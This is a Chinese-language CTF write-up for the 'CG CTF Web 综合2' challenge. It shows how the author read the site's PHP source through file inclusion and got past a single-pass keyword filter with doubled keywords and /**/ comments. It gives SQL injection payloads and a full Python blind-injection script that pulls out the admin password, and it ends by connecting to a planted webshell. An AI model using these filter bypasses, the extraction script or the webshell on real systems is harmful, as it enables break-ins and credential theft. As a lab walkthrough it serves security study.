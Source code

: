 ```yaml
---
title: "CG CTF Web 综合2 WriteUp"
date: 2022-07-20T16:08:22+08:00
draft: false
tags: ['php','ctf','sqli']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


题目很综合, 出的很好

看到答案后觉得当初如果往社工方面想的话, 会更简单...

<!--more-->

http://cms.nuptzj.cn/

![20220720161011](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161011.png)

留言板

常规性的右键查看源代码

![20220720161031](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161031.png)

一看就知道是文件包含

![20220720161056](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161056.png)

根据 sm.txt 以及直接访问网站得到的相关信息, 下载了网站的 PHP 源码, 但 config.php 无法读取

![20220720161214](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161214.png)

about.php

![20220720161238](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161238.png)

有一个过滤, 提示是敏感目录, 有一个 `loginxlcteam` 关键词

直接访问试试

![20220720161326](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161326.png)

后台登陆, 但源码肯定读不出来

很容易就可以猜出来管理员账户是 admin

但密码尝试了好几位都是长度不一致

![20220720161430](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161430.png)

可能有点 bug

可以尝试爆破, 但这个先放一边, 我们接着看源码

tips 说了 xss 与题目无关, 所以我们看一下 antiinject.php

```
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<?php
function antiinject($content){
$keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","=");
$info=strtolower($content);
for($i=0;$i<=count($keyword);$i++){
 $info=str_replace($keyword[$i], '',$info);
}
return $info;
}
?>
```

这里把关键字都过滤了, 而且过滤了 `' " + - =` 这些单个的字符和空格

可以看出来, 这里的"过滤"仅仅是过滤一次, 对于 `select` `union` 这种关键词可以以 `selselectect` `ununionion` 的形式进行绕过, 对于空格我们可以用 mysql 的行间注释 `/**/` 但对于单字符来说无法绕过

也就是说我们的注入语句中不可能出现 `' " =`

另外发现了 passencode.php

```
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<?php
function passencode($content){
//$pass=urlencode($content);
$array=str_split($content);
$pass="";
for($i=0;$i<count($array);$i++){
if($pass!=""){
$pass=$pass." ".(string)ord($array[$i]);
}else{
$pass=(string)ord($array[$i]);
}
}
return $pass;
}
?>
```

就是用 ASCII + 空格的形式编码管理员密码, 这个后面会用到, 现在先放一边

查看了好几个 SQL 操作的点, 基本都是下面这种

![20220720162010](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162010.png)

首先这种都是字符型的, 而且使用了 `mysql_real_escape_string()` 进行转义

也就是说在没有数据库启用宽字节 (如 gbk) 的情况下, 我们根本没有办法进行注入

但是 `mysql_real_escape_string()` 的转义对于整数型的注入是没有用的, 因为 `?id=123` 这种形式的注入根本就不需要闭合引号

所以我们现在的目标就很明确了: 找到一个整数型的注入点

经过仔细查找后, 在 so.php 有一处注入点

![20220720162323](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162323.png)

这里对 `User-Agent` 进行了验证, burp 直接改就行

![20220720162539](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162539.png)

下面就是正常的手工注入流程

我第一次用的是盲注, 甚至还写了个小脚本....(有点绕弯子)

后来发现 union 其实也可以, 不过需要先让前面的内容报错 (因为正常的内容占位了, 会导致 union 后面的内容无法显示出来)

```
soid=1/**/ooorrderrder/**/by/**/4 // true
soid=1/**/ooorrderrder/**/by/**/5 // false
```

order by 绕过有个小技巧, 就是构造 `ooorrderrder`, 因为 `order` 含有 `or`, 会过滤两次, 在 `o` 和 `r` 的中间再插入一次 `or` 就能绕过去了

或者直接 union select 挨个挨个试

![20220720162946](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162946.png)

顺便贴一下当时盲注写的脚本

```
#-*-coding:utf-8-*-

import requests
import binascii

def str_to_hexStr(string):
    str_bin = string.encode('utf-8')
    return binascii.hexlify(str_bin).decode('utf-8')


heads = {'User-Agent':'Xlcteam Browser'}

url = 'http://cms.nuptzj.cn/so.php'

dicts = '0123456789 qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_{}!@#$%^&*()+=-?'

password=''

for i in range(1,35):
    for p in dicts:
        pp = str_to_hexStr(p)
        ppp = '0x'+pp
        payloads = '1/**/aandnd/**/if(mid((selselectect/**/userppassass/**/frfromom/**/adadminmin/**/where/**/usernnameame/**/like/**/0x61646d696e),'+str(i)+',1)/**/like/**/'+ppp+',1,0)'
        datas = {'soid':payloads}
        res = requests.post(url,data=datas,headers=heads)
        if res.text.find('0xfxxker')!=-1:
            password += p
            print(password)
            break
```

其实前面已经知道了是 ASCII + 空格的编码形式, dicts 不用写的那么多, `1234567890 ` 就够用了

![20220720163757](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163757.png)

数据表结构前面的 sm.txt 已经给出来了

![20220720163028](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163028.png)

密文是 `102 117 99 107 114 117 110 116 117`

根据前面的 passencode.php 可以知道是 ASCII 编码, 解码得到 `fuckruntu`


登录

![20220720163124](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163124.png)

一句话木马在根目录 `xlcteam.php`

先用文件包含读一下内容

![20220720163228](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163228.png)

回调函数

看到 `|.*|e` 想到了正则表达式, 网上搜了一下发现 PHP 可以通过 `preg_replace()` 来执行命令

`array_walk()` 的作用就不说了

`http://cms.nuptzj.cn/xlcteam.php?www=preg_replace`

菜刀连接, 密码 wtf (好像现在 webshell 管理工具已经换了....)

![20220720163522](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163522.png)
